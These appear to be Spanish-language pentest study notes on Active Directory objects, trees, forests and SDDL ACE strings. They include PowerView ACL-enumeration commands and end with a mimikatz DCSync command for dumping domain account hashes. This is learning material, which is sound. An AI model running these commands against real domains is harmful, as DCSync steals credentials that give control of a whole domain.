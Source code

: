 #### Objecto
En una implementación de Active Directory, todos los elementos como usuarios, computadoras o grupos son objetos con un conjunto asociado de permisos de acceso, similar a los permisos asociados con archivos en un sistema de archivos local.

#### Arbol
Un árbol de dominio está compuesto por varios dominios que comparten un esquema y una configuración comunes, formando un espacio de nombres contiguo. Los dominios de un árbol también se vinculan entre sí mediante relaciones de confianza

#### Bosque
Es una construcción lógica que `Active Directory Domain Services` **(AD DS)** usa para agrupar uno o más dominios. Estos dominios almacenan objetos para los usuarios o grupos, y proporcionan servicios de autenticación.

----

## Teoria de permisos de objetos
### Prototipo SDDL
```
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

Cada elemento de la cadena ACE consta de uno o más valores concatenados.  
**ace_type**: designa si el ACE permite o deniega los permisos.  
**ace_flags**: establece indicadores relacionados con la herencia en objetos secundarios.  
**rights**: El tercer elemento son los derechos de acceso aplicados por el ACE.  
**object_guid y heritage_object_guid** permiten que el ACE se aplique solo a objetos según lo proporcionado por los valores GUID.  
Finalmente, el **account_sid** es el SID del objeto que el ACE se aplica

Como ejemplo, imagine que el **ACE** en el objeto A se aplica al objeto B. Esto otorga o niega el objeto B acceso al objeto A con los derechos de acceso especificados.  
Dado que el ACE se detalla en el formato SDDL, puede ser difícil de leer, como se ilustra en el  ejemplo de cadena ACE que se muestra:  
```
(A;;RPWPCCDCLCSWRCWDWOGA;;;S-1-1-0)
```

```
CADENA ACE TRADUCIDA
AceType: 
A = ACCESS_ALLOWED_ACE_TYPE
Access rights:
RP = ADS_RIGHT_DS_READ_PROP
WP = ADS_RIGHT_DS_WRITE_PROP
CC = ADS_RIGHT_DS_CREATE_CHILD
DC = ADS_RIGHT_DS_DELETE_CHILD
LC = ADS_RIGHT_ACTRL_DS_LIST
SW = ADS_RIGHT_DS_SELF
RC = READ_CONTROL
WD = WRITE_DAC
WO = WRITE_OWNER
GA = GENERIC_ALL
Ace Sid: 
S-1-1-0
```

#### Enumeracion con PowerView
```
> . .\powerview.ps1
> Get-ObjectAcl -Identity offsec
> ConvertFrom-SID S-1-5-21-3776646582-2086779273-4091361643-553
> Get-ObjectAcl -Identity offsec -ResolveGUIDs | Foreach-Object {$_ | AddMember -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID 
$_.SecurityIdentifier.value) -Force; $_}
```


----

**usuario krbtgt**: se crea automáticamente cuando promueve un nuevo dominio de Active Directory. Sin embargo, muchos administradores de AD no tienen suficiente conocimiento de esta cuenta, lo cual es muy importante desde el punto de vista de la seguridad y de toda la operación del dominio.

**klist**: Muestra una lista de los vales de Kerberos actualmente almacenados en caché.

### Quemando el bosque (DCSync Attack)
```
lsadump::dcsync /domain:prod.corp1.com /user:corp1$
```
